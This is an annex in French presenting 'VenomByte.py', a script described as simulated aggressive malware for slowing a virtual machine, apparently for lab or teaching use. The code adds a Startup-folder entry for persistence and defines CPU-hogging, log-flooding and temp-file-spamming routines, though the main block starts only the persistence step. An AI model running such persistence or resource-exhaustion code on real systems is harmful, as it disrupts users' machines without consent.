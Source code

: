 
---
# Annexe: VenomByte.py
---

Ce script ajoute un peu plus de complexité en créant un plus grand nombre de fichiers temporaires et en utilisant plus intensément les ressources système, ce qui peut ralentir la machine virtuelle de manière significative.

### **Script Python Simulé "Aggressif" :**

```python
import os
import time
import multiprocessing
import shutil

# Simuler un programme qui se lance au démarrage
def add_to_startup():
    user_profile = os.getenv('USERPROFILE')
    startup_folder = os.path.join(user_profile, 'AppData', 'Roaming', 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
    script_path = os.path.abspath(__file__)
    shortcut_path = os.path.join(startup_folder, 'AggressiveMalware.lnk')
    with open(shortcut_path, 'w') as shortcut:
        shortcut.write(f"[InternetShortcut]\nURL=file:///{script_path}\nIconIndex=0\n")

# Processus 1: Consommation intensive de ressources CPU et mémoire
def heavy_resource_hog():
    while True:
        x = [i**2 for i in range(10**6)]  # Opération intensive
        print("Processus 1 : Consommation intensive de ressources CPU et mémoire...")
        time.sleep(2)

# Processus 2: Ecriture rapide et continue dans un fichier log
def rapid_log_writer():
    log_file = os.path.join(os.getcwd(), "aggressive_log.txt")
    while True:
        with open(log_file, 'a') as log:
            log.write(f"Processus 2 : Ecriture rapide dans le fichier log à {time.ctime()}\n")
        time.sleep(0.5)

# Processus 3: Création massive de fichiers temporaires
def create_massive_temp_files():
    temp_dir = os.path.join(os.getcwd(), "massive_temp_files")
    if not os.path.exists(temp_dir):
        os.makedirs(temp_dir)
    count = 0
    while True:
        temp_file_path = os.path.join(temp_dir, f"temp_file_{count}.txt")
        with open(temp_file_path, 'w') as temp_file:
            temp_file.write("Processus 3 : Fichier temporaire créé pour simuler une activité malveillante agressive.\n")
        count += 1
        if count % 100 == 0:
            shutil.rmtree(temp_dir)  # Supprimer tous les fichiers créés tous les 100 cycles
            os.makedirs(temp_dir)
        time.sleep(1)

if __name__ == "__main__":
    # Ajouter le script au démarrage
    add_to_startup()

```